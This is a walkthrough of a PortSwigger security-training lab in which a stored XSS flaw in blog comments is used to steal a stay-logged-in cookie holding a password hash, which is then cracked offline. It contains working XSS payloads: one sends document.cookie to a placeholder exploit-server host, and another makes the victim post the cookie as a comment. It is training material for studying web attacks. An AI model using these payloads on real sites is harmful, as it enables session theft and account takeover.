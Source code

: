 # Offline password cracking
# Objective
This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.
- Your credentials: `wiener:peter`
- Victim's username: `carlos`


# Solution
## Analysis
### Cookie Construction
|![](Images/image-43.png)|
|:--:| 
| `stay-logged-in` cookie value |
|![](Images/image-44.png)|
| `stay-logged-in` cookie construction |
### XSS
Payload:
```js
<script>alert(document.cookie)</script>
```

|![](Images/image-45.png)|
|:--:| 
| *XSS proof of concept* |
|![](Images/image-46.png)|
| *POST request construction* |
## Exploitation
Stealing `stay-logged-in` cookie can be done in 2 ways:
- XSS forces victim to send his cookies to attacker's server.
- [XSS forces victim to make a comment on the blog with his cookies](/PortSwigger/Client_Side/XSS/Exploiting_cross-site_scripting_to_steal_cookies.md).


### Force victim to send requst with his cookies to exploit server
```js
<script>document.location='//EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```

### Force victim to post comment with his cookies
```js
<script>
window.addEventListener('DOMContentLoaded', function(){

var data = new FormData();
//Set appropiate postId
data.append('postId', 8);
data.append('comment', document.cookie);
data.append('name', 'Victim');
data.append('email', 'victim@victim.com');
data.append('website', 'https://example.com');

fetch('/post/comment', {
method: 'POST',
mode: 'no-cors',
body: data

});
});
</script>
```

|![](Images/image-47.png)|
|:--:| 
| *Victim's cookies* |
|![](Images/image-48.png)|
| *Victim's cookies* |
|![](Images/image-49.png)|
| *Password brute force* |